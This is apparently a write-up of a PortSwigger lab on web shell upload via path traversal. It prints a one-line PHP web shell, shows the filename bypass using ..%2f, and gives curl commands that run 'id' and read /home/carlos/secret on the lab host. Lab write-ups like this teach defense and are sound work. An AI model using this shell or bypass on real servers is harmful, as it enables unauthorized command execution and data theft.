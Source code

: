 # Web shell upload via path traversal | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal), you'll learn: Web shell upload via path traversal! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability](https://portswigger.net/web-security/file-path-traversal).

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216004515.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216004532.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216004538.png)

In the previous labs, we found the image upload function is vulnerable.

**Let's try to upload a PHP web shell, and intercept the request via Burp Suite:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216005114.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216005140.png)

When we clicked the `Upload` button, **it'll send a POST request to `/my-account/avatar`, with parameter `filename`, `user` and `csrf`. Also, the `Content-Type` is `application/x-php`.**

**Let's forward that request and see what will happened:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216005426.png)

The file has been uploaded!

**In the previous labs, we also knew that the uploaded file will lives in `/files/avatars/<filename>`.**

**Let's try to access that file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=id"   
<?php system($_GET['cmd']); ?>
```

Hmm... Plain text??

Let's take a step back.

In the `upload` POST request, we see a parameter called `filename`.

**What if that parameter is vulnerable to path traversal, and change that value to `../webshell.php`?**

**This might put our uploaded web shell to `/files/webshell.php`!**

Let's try that:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010232.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010242.png)

**File has been uploaded! Can we reach the web shell file??**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/webshell.php --get --data-urlencode "cmd=id"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 0be9fd0d8348 Port 80</address>
</body></html>
```

Still no...

**Hmm... What if the application is stripping the `/` or it's doing double URL encoding?**

**To bypass that, I'll URL encode the `/`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010629.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-3/images/Pasted%20image%2020221216010643.png)

**Now it treats the `%2f` as the `/`!**

**And can we reach the web shell file?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/webshell.php --get --data-urlencode "cmd=id"
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

**Yes we can! Let's `cat` the `secret` file:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0ac0001c0460fe43c218d4c000c2006a.web-security-academy.net/files/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
Y03cdrRe1Gc4ehqVfzbsTujvCCyf8TVc
```

# What we've learned:

1. Web shell upload via path traversal